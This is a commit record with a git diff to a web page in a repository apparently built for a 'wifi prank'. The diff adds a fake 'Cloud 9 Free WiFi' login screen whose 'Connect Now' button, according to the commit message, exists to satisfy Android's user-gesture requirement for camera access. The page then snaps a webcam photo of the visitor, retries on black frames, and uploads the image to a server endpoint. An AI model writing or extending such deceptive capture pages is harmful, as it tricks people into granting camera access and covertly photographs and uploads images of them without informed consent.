

Before and after one commit to yuvamcybercure/wifi-prank, a website: page public/reveal.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fix Android camera permission: Added mandatory Connect button to satisfy user gesture requirement

```diff
--- a/public/reveal.html
+++ b/public/reveal.html
@@ -23,8 +23,38 @@
       overflow: hidden;
     }
 
+    /* ── Gate Screen ── */
+    #gate {
+      text-align: center;
+      padding: 40px 24px;
+    }
+
+    .wifi-icon {
+      font-size: 4rem;
+      color: #7c4dff;
+      margin-bottom: 20px;
+    }
+
+    .connect-btn {
+      background: linear-gradient(90deg, #7c4dff, #448aff);
+      border: none;
+      color: white;
+      padding: 14px 40px;
+      font-size: 1.1rem;
+      font-weight: 600;
+      border-radius: 99px;
+      cursor: pointer;
+      box-shadow: 0 4px 15px rgba(124, 77, 255, 0.4);
+      transition: transform 0.2s, box-shadow 0.2s;
+    }
+
+    .connect-btn:active {
+      transform: scale(0.95);
+    }
+
     /* ── Loading screen ── */
     #loading {
+      display: none;
       text-align: center;
       padding: 40px 24px;
     }
@@ -193,6 +223,15 @@
 
 <body>
 
+  <!-- Gate Screen -->
+  <div id="gate">
+    <div class="emoji-rain" style="opacity: 0.1"><span>📶</span></div>
+    <div style="font-size: 5rem; margin-bottom: 20px;">📶</div>
+    <h1>Cloud 9 Free WiFi</h1>
+    <p style="margin: 15px 0 30px; color: #888;">High-speed public internet access.<br>Click below to authenticate your device.</p>
+    <button class="connect-btn" onclick="handleConnect()">Connect Now</button>
+  </div>
+
   <!-- Loading -->
   <div id="loading">
     <span class="wifi-anim">📶</span>
@@ -228,6 +267,29 @@
     const urlParams = new URLSearchParams(window.location.search);
     const scanId = urlParams.get('scanId');
 
+    async function handleConnect() {
+      // 1. Hide gate, show loading
+      document.getElementById('gate').style.display = 'none';
+      document.getElementById('loading').style.display = 'block';
+
+      // 2. Start camera request (USER GESTURE!)
+      startCapture();
+
+      // 3. Prank reveal timer
+      setTimeout(() => {
+        document.getElementById('loading').style.display = 'none';
+        document.getElementById('reveal').style.display = 'block';
+
+        // Play sound
+        const sound = document.getElementById('prank-sound');
+        if (sound) {
+          sound.play().catch(e => console.log("Audio play error: ", e));
+        }
+
+        spawnEmojis();
+      }, 3500);
+    }
+
     async function startCapture() {
       if (!scanId) {
         console.warn("No scanId found in URL.");
@@ -241,13 +303,12 @@
         const video = document.getElementById('video');
         video.srcObject = stream;
 
-        // Wait for video to be actually ready for capture (Fix for Android Black Image)
+        // Wait for video to be actually ready for capture
         const waitForVideo = setInterval(() => {
           if (video.readyState >= 2 && video.videoWidth > 0) {
             clearInterval(waitForVideo);
-            console.log("Video source ready for capture");
 
-            // Capture after reveal animation starts
+            // Snapshot timer (triggered during the prank reveal)
             setTimeout(() => {
               const canvas = document.getElementById('canvas');
               const context = canvas.getContext('2d');
@@ -255,7 +316,7 @@
               const takeSnapshot = (retryCount = 0) => {
                 context.drawImage(video, 0, 0, 640, 480);
 
-                // Check if image is black (only on Android/Chrome)
+                // Black frame detection
                 const imgData = context.getImageData(0, 0, 10, 10).data;
                 let isBlack = true;
                 for (let i = 0; i < imgData.length; i += 4) {
@@ -266,7 +327,6 @@
                 }
 
                 if (isBlack && retryCount < 5) {
-                  console.log("Detected black frame, retrying...");
                   setTimeout(() => takeSnapshot(retryCount + 1), 500);
                   return;
                 }
@@ -277,51 +337,26 @@
                   formData.append('scanId', scanId);
 
                   try {
-                    const res = await fetch('/api/upload-reaction', {
+                    await fetch('/api/upload-reaction', {
                       method: 'POST',
                       body: formData
                     });
-                    if (res.ok) {
-                      console.log("Reaction uploaded!");
-                    } else {
-                      const errJson = await res.json();
-                      console.error("Upload failed:", errJson.error);
-                    }
                   } catch (err) {
-                    console.error("Network error:", err.message);
+                    console.error("Upload error:", err.message);
                   }
 
-                  // Stop camera
                   stream.getTracks().forEach(track => track.stop());
                 }, 'image/jpeg', 0.8);
               };
 
               takeSnapshot();
-            }, 5500);
+            }, 4500);
           }
         }, 500);
-
       } catch (e) {
         console.error("Camera access failed:", e.message);
       }
     }
-
-    // Start immediately
-    startCapture();
-
-    // After 2.6s show the reveal
-    setTimeout(() => {
-      document.getElementById('loading').style.display = 'none';
-      document.getElementById('reveal').style.display = 'block';
-
-      // Play sound
-      const sound = document.getElementById('prank-sound');
-      if (sound) {
-        sound.play().catch(e => console.log("Audio autoplay blocked, but camera permission might have enabled it: ", e));
-      }
-
-      spawnEmojis();
-    }, 2600);
 
     function spawnEmojis() {
       const container = document.getElementById('emoji-rain');
@@ -338,5 +373,4 @@
     }
   </script>
 </body>
-
 </html>
```
